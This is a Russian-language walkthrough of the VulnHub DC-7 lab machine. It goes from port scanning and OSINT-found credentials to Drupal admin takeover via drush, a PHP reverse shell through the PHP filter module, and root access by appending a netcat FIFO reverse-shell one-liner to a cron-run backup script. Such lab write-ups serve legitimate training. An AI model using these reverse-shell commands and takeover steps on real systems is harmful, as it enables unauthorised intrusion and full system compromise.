# VulnHub: DC-7 Machine

> **Author:** mapanit
> **Date:** 10.06.2026
> **Target IP:** `10.0.2.3`
> **Attacker IP:** `10.0.2.15`
> **Difficulty:** Beginner

---

## Сканирование портов

```bash
nmap -sC -sV 10.0.2.3
```



- `-sV` — определение версии службы
- `-sC` — запуск скриптов по умолчанию

**Результат:** доступны два порта:

- `22` — SSH
- `80` — HTTP

## Сбор информации



Сканирование сайта с помощью Nikto:

```bash
nikto -h http://10.0.2.3
```



Результат:

- Обнаружена версия **Drupal** и **Apache 2.4.25**
- Доступны служебные файлы (`INSTALL.txt`, `LICENSE.txt`, `robots.txt` с ~40 записями)
- Отсутствуют защитные заголовки (CSP, HSTS, Referrer-Policy и др.)
- Разрешены методы HTTP `GET` и `POST`

Эти находки указывают на потенциальные уязвимости веб-сервера, которые стоит проверить дальше.

## Перечисление каталогов

```bash
gobuster dir -u http://10.0.2.3 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,sh,js,bak
```

Значимых результатов не найдено — скрытых директорий/файлов брутфорсом обнаружить не удалось.



## OSINT

На главной странице сайта в футере обнаружена подсказка — юзернейм `DC7USER`. Поиск по этому нику (в том числе через Google dorking) привёл к GitHub-аккаунту с ником `dc7user`.




На аккаунте найден единственный репозиторий — **staffdb**, содержащий исходный код уязвимого сайта. В файле `config.php` в открытом виде обнаружены учётные данные:





```
username = dc7user
password = MdR3xOgB7#dW
```

## Первичный доступ

С полученными учётными данными выполнен вход по SSH:

```bash
ssh dc7user@10.0.2.3
```



Вход выполнен успешно.

## Повышение привилегий внутри Drupal

Внутри системы обнаружен `drush` — инструмент командной строки для администрирования Drupal (CMS с открытым исходным кодом на PHP). Drush позволяет управлять сайтом напрямую из терминала, в том числе — сбрасывать пароли пользователей без доступа к веб-интерфейсу.





Сброс пароля администратора:

```bash
drush user-password admin --password=123456
```



Выполнен вход на `http://10.0.2.3/user/login`:

- **User:** `admin`
- **Password:** `123456`

## Удалённое выполнение кода

Получив доступ к консоли администратора Drupal, установлен модуль **PHP filter**, позволяющий вставлять и исполнять произвольный PHP-код внутри контента страницы:

```
Manage > Extend > List > Install new module
```

Модуль загружен по прямой ссылке на пакет для Drupal и установлен.







Далее создана новая страница:

```
Content > Add content > Basic page
```

- В теле страницы (`body`) вставлен PHP reverse-shell скрипт (pentestmonkey php-reverse-shell), IP и порт скрипта настроены на атакующую машину.
- Формат текста поля `body` изменён на **PHP code**.

На стороне атакующего запущен листенер:

```bash
sudo nc -lvnp 1234
```

После нажатия **Preview** на созданной странице код исполнился, и в терминале с листенером получена reverse-shell сессия от имени `www-data`.






## Локальное повышение привилегий

Обнаружено, что `www-data` имеет право выполнять/изменять `/opt/scripts/backup.sh` без пароля.

Для получения интерактивной bash-оболочки сгенерирован payload с помощью msfvenom:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.0.2.15 lport=8889 R
```



На атакующей машине запущен второй листенер:

```bash
nc -lvnp 8889
```



Сгенерированная команда дописана в конец файла `backup.sh`:

```bash
echo "mkfifo /tmp/trsgux; nc 10.0.2.15 8889 0</tmp/trsgux | /bin/sh >/tmp/trsgux 2>&1; rm /tmp/trsgux" >> /opt/scripts/backup.sh
```



Файл `backup.sh` запускается по расписанию (cron) от имени `root`. После срабатывания задачи на листенере `8889` получена root-оболочка.



---

*Готово.*
